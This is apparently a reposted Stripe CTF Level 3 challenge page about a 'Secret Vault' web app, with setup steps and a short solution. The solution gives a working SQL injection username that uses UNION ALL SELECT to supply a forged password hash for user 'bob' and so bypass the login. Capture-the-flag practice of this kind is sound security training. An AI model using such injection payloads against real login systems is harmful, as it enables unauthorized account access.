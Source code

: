 ## Level 3

After the fiasco back in Level 0, management has decided to fortify the Secret Safe into an unbreakable solution (kind of like [Unbreakable Linux](http://www.oracle.com/us/technologies/linux/ubreakable-enterprise-kernel-linux-173350.html)). The resulting product is Secret Vault, which is so secure that it requires human intervention to add new secrets.

A beta version has launched with some interesting secrets (including the password to access Level 4); you can check it out at https://level03-1.stripe-ctf.com/user-xxxxxxxxxx. As usual, you can fetch the code for the level (and some sample data) via `git clone https://level03-1.stripe-ctf.com/user-xxxxxxxxxx/level03-code`, or you can read the code below.

### Running

- Run 'pip install flask flup'
- Run 'python secretvault.py'. This will automatically generate test data for you.
- Visit 'localhost:5000' in your web browser

### Solution

  * Username: `' UNION ALL SELECT id, '7a37b85c8918eac19a9089c0fa5a2ab4dce3f90528dcdeec108b23ddf3607b99' as 'password_hash', 'salt' AS 'salt' FROM users where username = 'bob' or 1='`
  * Password: `password`

Originally posted at [https://stripe-ctf.com/levels/3](https://stripe-ctf.com/levels/3).
